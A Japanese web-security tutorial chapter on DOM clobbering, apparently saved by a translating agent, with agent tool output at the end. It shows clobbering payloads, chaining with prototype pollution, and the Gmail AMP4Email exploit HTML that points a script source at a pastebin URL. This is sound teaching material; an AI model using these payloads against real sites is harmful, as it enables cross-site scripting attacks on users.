





# HTMLもJavaScriptに影響を与える？DOM clobbering入門

プロトタイプ汚染のような脆弱性を介してJavaScriptの実行に影響を与えることに加えて、HTMLもJavaScriptに影響を与えることができることをご存知でしたか？

JavaScriptがDOM APIを使用してHTMLを操作できることは誰もが知っています。しかし、HTMLはどのようにJavaScriptの実行に影響を与えることができるのでしょうか？そこが興味深いところです。

本格的に始める前に、ちょっとした楽しい課題から始めましょう。

ボタンとスクリプトを含む次のコードスニペットがあるとします。

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>

<body>
  <button id="btn">click me</button>
  <script>
    // TODO: ボタンにクリックイベントリスナーを追加
  </script>
</body>
</html>
```

さて、`<script>` タグ内で「ボタンがクリックされたときに `alert(1)` を表示する」機能を「可能な限り短いコード」で実装してみてください。

例えば、次のコードは目標を達成します。

```js
document.getElementById('btn')
  .addEventListener('click', () => {
    alert(1)
  })
```

では、コードを可能な限り短くするための答えは何でしょうか？

先に進む前に、少し時間を取ってこの質問について考えてみてください。答えが思いついたら、先に進みましょう！

ネタバレ注意：
.  
.  
.  
.  
.  
.  
.  
.  
.  
.  
.  
.  
.  

## DOMとwindowの量子もつれ

DOM内の要素が `window` オブジェクトに影響を与える可能性があることをご存知でしたか？

数年前にFacebookのフロントエンドコミュニティで偶然この動作を知りました。HTMLで `id` を持つ要素を定義すると、JavaScriptで直接アクセスできることがわかりました。

```html
<button id="btn">click me</button>
<script>
  console.log(window.btn) // <button id="btn">click me</button>
</script>
```

そして、スコープのおかげで、`btn` だけで直接アクセスすることもできます。現在のスコープは `window` を見つけるまで上向きに検索するためです。

したがって、前の質問の答えは次のとおりです。

```js
btn.onclick=()=>alert(1)
```

`getElementById` も `querySelector` も必要ありません。idと同じ名前の変数を使用して直接アクセスするだけで取得できます。

この動作は、[7.3.3 Named access on the Window object](https://html.spec.whatwg.org/multipage/window-object.html#named-access-on-the-window-object)の仕様で明確に定義されています。



2つの重要なポイントを抜粋します。

1. 空でないnameコンテンツ属性を持つすべての `embed`、`form`、`img`、および `object` 要素のnameコンテンツ属性の値
2. 空でないidコンテンツ属性を持つすべてのHTML要素の `id` コンテンツ属性の値

これは、`id` を使用して `window` を介して要素に直接アクセスできるだけでなく、`name` 属性を使用して `<embed>`、`<form>`、``、および `<object>` 要素にアクセスできることを意味します。

```html
<embed name="a"></embed>
<form name="b"></form>

<object name="d"></object>
```

この仕様を理解すると、次の結論が得られます。

> HTML要素を介してJavaScriptに影響を与えることができます。

そして、このテクニックは攻撃に使用でき、DOM clobberingとして知られています。この攻撃の文脈で初めて「clobbering」という言葉に出会いました。さらに調べたところ、コンピュータサイエンスの分野では「上書き」を意味することがわかりました。これは、DOMを使用して特定の要素を上書きして攻撃を達成することを指します。

## DOM clobbering入門

どのような状況でDOM clobberingを攻撃に利用できるでしょうか？

まず、ページにカスタムHTMLを表示する機会が必要です。そうでなければ不可能です。

したがって、潜在的な攻撃シナリオは次のようになる可能性があります。

```html
<!DOCTYPE html>
<html>
<body>
  <h1>コメント</h1>
  <div>
    あなたのコメント：こんにちは
  </div> 
  <script>
    if (window.TEST_MODE) {
      // テストスクリプトを読み込みます
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

コメントボードがあり、任意のコンテンツを入力できるとします。ただし、入力はサーバー側でサニタイズされ、JavaScriptを実行できるものはすべて削除されます。したがって、`<script></script>` は削除され、`` の `onerror` 属性は削除されます。多くのXSSペイロードは通過しません。

要するに、JavaScriptを実行してXSSを達成することはできません。なぜなら、そのような試みはすべてフィルタリングされるからです。

ただし、さまざまな要因により、HTMLタグはフィルタリングされないため、カスタムHTMLを表示できます。JavaScriptが実行されない限り、任意のHTMLタグを挿入し、任意の属性を設定できます。

したがって、次のようにすることができます。

```html
<!DOCTYPE html>
<html>
<body>
  <h1>コメント</h1>
  <div>
    あなたのコメント：<div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // テストスクリプトを読み込みます
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

上記の知識に基づいて、idが「TEST_MODE」のタグ `<div id="TEST_MODE"></div>` を挿入できます。これにより、JavaScriptの `if (window.TEST_MODE)` は通過します。なぜなら、`window.TEST_MODE` はこのdiv要素になるからです。

次に、`<a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>` を使用して、`window.TEST_SCRIPT_SRC` を文字列に変換した後、目的の文字列にすることができます。

ほとんどの場合、変数をHTML要素で上書きするだけでは十分ではありません。例えば、上記のコードスニペットの `window.TEST_MODE` を文字列に変換して出力すると：

```js
// <div id="TEST_MODE" />
console.log(window.TEST_MODE + '')
```

結果は `[object HTMLDivElement]` になります。

HTML要素を文字列に変換すると、この形式になり、この場合は使用できません。しかし幸いなことに、HTMLには文字列に変換されるときに特別に扱われる2つの要素があります：`<base>` と `<a>`。



出典：[4.6.3 API for a and area elements](https://html.spec.whatwg.org/#api-for-a-and-area-elements)

これらの2つの要素は、`toString` が呼び出されたときにURLを返します。href属性を使用してURLを設定することで、`toString` 後のコンテンツを制御できます。

したがって、上記のテクニックを組み合わせると、次のことを学びました。

1. id属性を持つHTMLを使用してJavaScript変数に影響を与える。
2. hrefとidを持つ `<a>` を使用して、要素の `toString` 結果を目的の値にする。

これらの2つのテクニックを適切なコンテキストで使用することで、DOM clobberingを悪用できる可能性があります。

ただし、ここで重要な注意点があります。攻撃したい変数がすでに存在する場合、DOMを使用して上書きすることはできません。例えば：

```html
<!DOCTYPE html>
<html>
<head>
  <script>
    TEST_MODE = 1
  </script>
</head>
<body>
  <div id="TEST_MODE"></div> 
  <script>
    console.log(window.TEST_MODE) // 1
  </script>
</body>
</html>
```

## ネストされたDOM Clobbering

前の例では、DOMを使用して `window.TEST_MODE` を上書きし、予期しない動作を作成しました。しかし、上書き対象がオブジェクトの場合はどうでしょうか？可能でしょうか？

例えば、`window.config.isTest` のような場合、DOM clobberingを使用して上書きできますか？

上書きする方法はいくつかあります。1つ目は、HTMLタグの階層関係、特にform要素を利用することです。

HTMLの[仕様](https://www.w3.org/TR/html52/sec-forms.html)には、次のようなセクションがあります。



`form[name]` または `form[id]` を使用して、その子要素にアクセスできます。例えば：

```html
<!DOCTYPE html>
<html>
<body>
  <form id="config">
    <input name="isTest" />
    <button id="isProd"></button>
  </form>
  <script>
    console.log(config) // <form id="config">
    console.log(config.isTest) // <input name="isTest" />
    console.log(config.isProd) // <button id="isProd"></button>
  </script>
</body>
</html>
```

このようにして、2レベルのDOM clobberingを作成できます。ただし、注意すべき点が1つあります。ここには `<a>` がないため、`toString` の結果は使用できない形式になります。

より悪用しやすい機会は、上書きしたいものが `value` プロパティを使用してアクセスされる場合です。例えば：`config.environment.value`。この場合、`<input>` の `value` 属性を使用して上書きできます。

```html
<!DOCTYPE html>
<html>
<body>
  <form id="config">
    <input name="enviroment" value="test" />
  </form>
  <script>
    console.log(config.enviroment.value) // test
  </script>
</body>
</html>
```

簡単に言うと、組み込み属性のみを上書きでき、それ以外はできません。

HTML自体の階層構造を利用することに加えて、もう1つの機能である `HTMLCollection` を利用できます。

仕様の「Named access on the Window object」に関する以前のセクションで、値が何であるかを決定する段落は次のように記述されています。



返されるものが複数ある場合は、`HTMLCollection` が返されます。

```html
<!DOCTYPE html>
<html>
<body>
  <a id="config"></a>
  <a id="config"></a>
  <script>
    console.log(config) // HTMLCollection(2)
  </script>
</body>
</html>
```

では、`HTMLCollection` で何ができるでしょうか？[4.2.10.2. Interface HTMLCollection](https://dom.spec.whatwg.org/#interface-htmlcollection)には、nameまたはidを使用して `HTMLCollection` 内の要素にアクセスできると記載されています。



このように：

```html
<!DOCTYPE html>
<html>
<body>
  <a id="config"></a>
  <a id="config" name="apiUrl" href="https://huli.tw"></a>
  <script>
    console.log(config.apiUrl + '')
    // https://huli.tw
  </script>
</body>
</html>
```

同じidを使用して `HTMLCollection` を生成し、次にnameを使用して `HTMLCollection` から特定の要素を取得し、2レベルの効果を達成できます。

そして、`<form>` と `HTMLCollection` を組み合わせると、3レベルを達成できます。

```html
<!DOCTYPE html>
<html>
<body>
  <form id="config"></form>
  <form id="config" name="prod">
    <input name="apiUrl" value="123" />
  </form>
  <script>
    console.log(config.prod.apiUrl.value) //123
  </script>
</body>
</html>
```

同じidを使用することで、`config` がHTMLCollectionにアクセスできるようになります。次に、`config.prod` を使用して、HTMLCollectionからnameがprodの要素、つまりフォームを取得できます。次に、`form.apiUrl` を使用してフォームの下のinputにアクセスし、最後にvalueを使用してその属性を取得します。

したがって、目的の属性がHTML属性である場合、4レベルを持つことができます。そうでない場合は、3レベルしか持つことができません。

ただし、Firefoxでは少し異なります。Firefoxでは `HTMLCollection` は返されません。例えば、同じコードの場合：

```html
<!DOCTYPE html>
<html>
<body>
  <a id="config"></a>
  <a id="config"></a>
  <script>
    console.log(config) // <a id="config"></a>
  </script>
</body>
</html>
```

Firefoxでは、`HTMLCollection` ではなく、最初の `<a>` 要素のみが出力されます。したがって、Firefoxでは `HTMLCollection` を使用できず、`<form>` と後で説明する `<iframe>` のみを使用できます。

## さらにネストされたDOM Clobbering

前述の3レベルまたは条件付きで4レベルはすでに限界です。この制限を突破する方法はありますか？

[DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)で説明されているテクニックによると、iframeを使用することで達成できます！

iframeを作成して名前を付けると、その名前を使用してiframe内の `window` にアクセスできます。次のように行うことができます。

```html
<!DOCTYPE html>
<html>
<body>
  <iframe name="config" srcdoc='
    <a id="apiUrl"></a>
  '></iframe>
  <script>
    setTimeout(() => {
      console.log(config.apiUrl) // <a id="apiUrl"></a>
    }, 500)
  </script>
</body>
</html>
```

ここで `setTimeout` を使用する理由は、iframeが同期的に読み込まれないため、iframe内のコンテンツに正しくアクセスするには時間がかかるためです。

iframeの助けを借りて、さらに多くのレベルを作成できます。

```html
<!DOCTYPE html>
<html>
<body>
  <iframe name="moreLevel" srcdoc='
    <form id="config"></form>
    <form id="config" name="prod">
      <input name="apiUrl" value="123" />
    </form>
  '></iframe>
  <script>
    setTimeout(() => {
      console.log(moreLevel.config.prod.apiUrl.value) //123
    }, 500)
  </script>
</body>
</html>
```

さらに多くのレベルが必要な場合は、@splitlineによって作成されたこの便利なツールを使用できます：[DOM Clobber3r](https://splitline.github.io/DOM-Clobber3r/)

## documentを介した攻撃対象の拡大

前述のように、DOM clobberingを利用する機会は高くありません。なぜなら、コードにはまず宣言されていないグローバル変数を使用する場所が必要だからです。このような状況は、開発中にESLintによって通常検出されるため、どのようにしてオンラインになったのでしょうか？

DOM clobberingの力は、`window` に加えて、名前と組み合わせることで `document` に影響を与えることができる要素がいくつかあるという事実にあります。

理解するために直接例を見てみましょう。

```html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
</head>
<body>
  
  <form id=test>
    <input name=lastElementChild>
    <div>I am last child</div>
  </form>
  <embed name=getElementById></embed>
  <script>
    console.log(document.cookie) // 
    console.log(document.querySelector('#test').lastElementChild) // <input name=lastElementChild>
    console.log(document.getElementById) // <embed name=getElementById></embed>
  </script>
</body>
</html>
```

ここでは、HTML要素を使用してdocumentに影響を与えました。元の `document.cookie` はcookieを表示するはずですが、今では `` 要素になっています。さらに、最後の要素を返すはずの `lastElementChild` は、フォームの下の名前によって上書きされ、同じ名前の要素が取得されます。

`document.getElementById` でさえDOMによって上書きされ、`document.getElementById()` を呼び出すときにエラーが発生し、ページ全体がクラッシュする可能性があります。

CTFチャレンジでは、以前に言及したプロトタイプ汚染と組み合わせて使用されることがよくあります。より良い結果が得られます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
</head>
<body>
  
  <script>
    // 属性をカスタム関数に汚染できると仮定します
    Object.prototype.toString = () => 'a=1'
    console.log(`cookie: ${document.cookie}`) // cookie: a=1
  </script>
</body>
</html>
```

なぜでしょうか？

現在、`document.cookie` はHTML要素です。テンプレート構文を使用する場合、コンテンツが文字列でない場合、`toString` メソッドが自動的に呼び出されます。ただし、HTML要素自体は `toString` を実装していません。したがって、プロトタイプチェーンに従って、最終的に汚染された `Object.prototype.toString` が呼び出され、汚染された結果が返されます。

これらの脆弱性を連鎖させることにより、`document.cookie` の値を操作し、その後のフローに影響を与えることができます。

以前に紹介したDOMPurifyは、サニタイズ時にこの部分を特別に処理しています。

```js
// https://github.com/cure53/DOMPurify/blob/d5060b309b5942fc5698070fbce83a781d31b8e9/src/purify.js#L1102
const _isValidAttribute = function (lcTag, lcName, value) {
  /* 属性がclobberできないことを確認します */
  if (
    SANITIZE_DOM &&
    (lcName === 'id' || lcName === 'name') &&
    (value in document || value in formElement)
  ) {
    return false;
  }
  // ...
}
```

idまたはnameの値がすでに `document` または `formElement` に存在する場合、スキップされ、documentおよびformに対するDOM clobberingの防止は行われません。

以前に紹介したSanitizer APIについては、[仕様](https://wicg.github.io/sanitizer-api/#dom-clobbering)に「Sanitizer APIはデフォルトの状態ではDOM clobbering攻撃から保護しません」と明確に記載されています。デフォルトではDOM clobberingに対する保護は提供されません。

## 事例研究：Gmail AMP4Email XSS

2019年、GmailにはDOM clobberingを介して悪用できる脆弱性がありました。包括的な解説はこちらにあります：[XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering)。以下に、プロセスを簡単に説明します（内容は上記の記事から引用）。

簡単に言うと、Gmailでは一部のAMP機能を使用でき、Googleはこの形式のバリデーターが厳格であるため、従来の方法でXSS攻撃を実行することは困難です。

しかし、HTML要素にidを設定できることを発見した人がいました。彼らは、`<a id="AMP_MODE">` を設定すると、コンソールにスクリプト読み込みエラーが発生し、URLの一部が `undefined` であることがわかりました。コードを注意深く調べた後、次のようなコードスニペットを見つけました。

```js
var script = window.document.createElement("script");
script.async = false;

var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}

if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}

var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";

document.head.appendChild(b);
```

`AMP_MODE.test` と `AMP_MODE.localDev` の両方を真にし、`window.testLocation` を設定できれば、任意のスクリプトを読み込むことができます！

したがって、エクスプロイトは次のようになります。

```html
// AMP_MODE.testとAMP_MODE.localDevをclobberします
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// testLocation.protocolを設定します
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

最終的に、任意のスクリプトを正常に読み込むことで、XSSを達成できます！（ただし、著者はCSPによってブロックされる前にこのステップまでしか到達できませんでした。これはCSPが依然として非常に有用であることを示しています）。

これはDOM clobberingの最も有名な事例の1つであり、この脆弱性を発見した研究者は、Mutation XSSとプロトタイプ汚染について以前に言及したMichał Bentkowski氏です。彼は多くの古典的な事例を一人で生み出しました。

## まとめ

DOM clobberingの使用例は限られていますが、確かに興味深い攻撃方法です！さらに、この機能を知らない場合、HTMLを使用してグローバル変数の内容に影響を与えることができるとは考えもしなかったかもしれません。

この攻撃手法に興味がある場合は、PortSwiggerの[記事](https://portswigger.net/web-security/dom-based/dom-clobbering)を参照してください。この攻撃手法を実際に試すための2つのラボが提供されています。読むだけでは不十分です。完全に理解するには、実際に攻撃を試す必要があります。

参考文献：

1. [Dom Clobberingを使用してXSSを拡張する](http://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#HTML-Relationships)
2. [DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)
3. [DOM Clobbering Attack学習記録.md](https://wonderkun.cc/2020/02/15/DOM%20Clobbering%20Attack%E5%AD%A6%E7%BF%92%E8%AE%B0%E9%8C%84/)
4. [DOM Clobbering学習記録](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E7%BF%92%E8%AE%B0%E9%8C%84/)
5. [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
6. [要素のidをグローバル変数にする仕様はありますか？](https://stackoverflow.com/questions/6381425/is-there-a-spec-that-the-id-of-elements-should-be-made-global-variable)
7. [JavaScriptで要素IDを識別子として使用しないのはなぜですか？](https://stackoverflow.com/questions/25325221/why-dont-we-just-use-element-ids-as-identifiers-in-javascript)
8. [idを持つDOMツリー要素はグローバル変数になりますか？](https://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)

</final_file_content>

IMPORTANT: For any future changes to this file, use the final_file_content shown above as your reference. This content reflects the current state of the file, including any auto-formatting (e.g., if you used single quotes but the formatter converted them to double quotes). Always base your SEARCH/REPLACE operations on this final version to ensure accuracy.

<environment_details>
# VSCode Visible Files
i18n/en/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md
i18n/ja/docusaurus-plugin-content-docs/current/ch3/15-dom-clobbering.md

# VSCode Open Tabs
i18n/ja/docusaurus-plugin-content-docs/current/ch1/03-xss-introduction.md
i18n/ja/docusaurus-plugin-content-docs/current/ch1/04-know-xss-a-bit-more.md
i18n/ja/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/06-xss-defense-sanitization.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/07-xss-defense-csp.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/08-token-storage.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/09-trust-types.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/10-csp-bypass.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/11-mutation-xss.md
i18n/ja/docusaurus-plugin-content-docs/current/ch2/12-universal-xss.md
i18n/ja/docusaurus-plugin-content-docs/current/ch3/13-attack-without-js.md
i18n/ja/docusaurus-plugin-content-docs/current/ch3/14-prototype-pollution.md
i18n/ja/docusaurus-plugin-content-docs/current/ch3/15-dom-clobbering.md
i18n/en/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md

# Current Time
2025/5/20 午前9:35:00 (Asia/Tokyo, UTC+9:00)

# Context Window Usage
436,085 / 1,048.576K tokens used (42%)

# Current Mode
ACT MODE
</environment_details>
